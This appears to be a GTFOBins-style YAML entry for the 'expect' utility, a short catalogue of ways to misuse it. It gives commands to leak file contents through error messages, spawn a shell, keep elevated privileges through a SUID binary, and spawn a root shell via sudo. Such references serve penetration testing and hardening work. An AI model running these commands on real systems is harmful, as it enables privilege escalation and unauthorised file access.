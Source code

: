 ```yaml
---
functions:
  file-read:
    - description: The file is read and parsed as an `expect` command file, the content of the first invalid line is returned in an error message. Thus, this might not be suitable to read arbitrary binary files.
      code: |
        LFILE=file_to_read
        expect $LFILE
  shell:
    - code: expect -c 'spawn /bin/sh;interact'
  suid:
    - code: ./expect -c 'spawn /bin/sh -p;interact'
  sudo:
    - code: sudo expect -c 'spawn /bin/sh;interact'
---
```

